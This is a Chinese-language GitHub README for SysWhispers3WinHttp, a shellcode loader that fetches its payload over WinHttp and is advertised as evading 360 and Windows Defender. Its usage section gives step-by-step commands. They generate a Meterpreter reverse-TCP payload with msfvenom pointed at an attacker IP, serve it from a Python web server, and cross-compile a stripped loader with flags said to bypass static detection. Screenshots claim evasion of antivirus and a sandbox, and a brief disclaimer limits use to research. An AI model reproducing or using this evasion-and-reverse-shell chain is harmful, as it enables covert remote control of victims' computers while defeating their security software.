 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，可免杀360核晶与Defender。

## 0x00 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x01 更新日志：
2023/06/06 支持64位GCC编译，增添编译参数绕过静态检测。

## 0x02 使用：

```
// 1. 使用msfvenom生成Shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.110 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之Host File功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址，使用Linux64位GCC进行交叉编译
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1

// 4. 或修改SysWhispers3WinHttp.c第4行头文件为syscalls.h与第40行IP地址，使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1
```

## 0x03 演示：

360核晶（2023/06/06更新）
![360](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/b4534cba-2b86-47d7-bcf3-553739e2012b)

Defender（2023/06/06更新）
![WD](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/a134f8bd-922d-4132-af9d-c8eee6b07fc1)

微步云沙箱
![threatbook](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/bfd99aee-6f82-4960-a461-12c1b83b594a)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
